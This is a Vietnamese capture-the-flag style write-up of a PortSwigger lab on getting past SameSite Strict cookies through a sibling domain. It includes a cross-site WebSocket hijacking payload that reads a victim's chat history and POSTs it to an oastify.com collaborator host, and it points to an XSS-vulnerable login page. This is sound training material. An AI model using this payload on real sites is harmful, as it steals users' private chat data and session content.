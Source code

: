 link: https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain

### Đề bài

![image](https://hackmd.io/_uploads/SyzO2TWu1e.png)

### Phân tích

- Trong Burp, hãy vào tab `Proxy > WebSockets history` . Lưu ý rằng khi bạn làm mới trang, trình duyệt sẽ gửi READYtin nhắn đến máy chủ. Điều này khiến máy chủ phản hồi với toàn bộ lịch sử trò chuyện.

- mà chat ko có csrf token gì nên có thể khai thác csrf

### Khai thác

- tự khai thác mình trước với payload

```javascript!
<script>
    var ws = new WebSocket('wss://0ad1002103f1da5a811af7c00035002d.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://m0n0p7ag93p1fko1ar2xofvm5db4zvnk.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

![image](https://hackmd.io/_uploads/SyU9P6Z_Je.png)

- thấy bắt đc phản hồi trả về

![image](https://hackmd.io/_uploads/Hk2dwp-OJx.png)

- nhưng vì SameSite là Strict nên ko thể thực hiện do ngăn gửi kèm cookie ==> kết nối mặc định

![image](https://hackmd.io/_uploads/ryLEppZ_Jg.png)

- để ý có endponit chat.js và file này đc lấy từ 1 domain khác được cho phép chia sẻ cookie

![image](https://hackmd.io/_uploads/rJPZ2T-dyl.png)

![image](https://hackmd.io/_uploads/ryN-R6Z_yg.png)

- vào nó bắt đăng nhập và trang đăng nhập bị xss

![image](https://hackmd.io/_uploads/Bkd0op-dkx.png)

![image](https://hackmd.io/_uploads/SyTQiaW_1e.png)
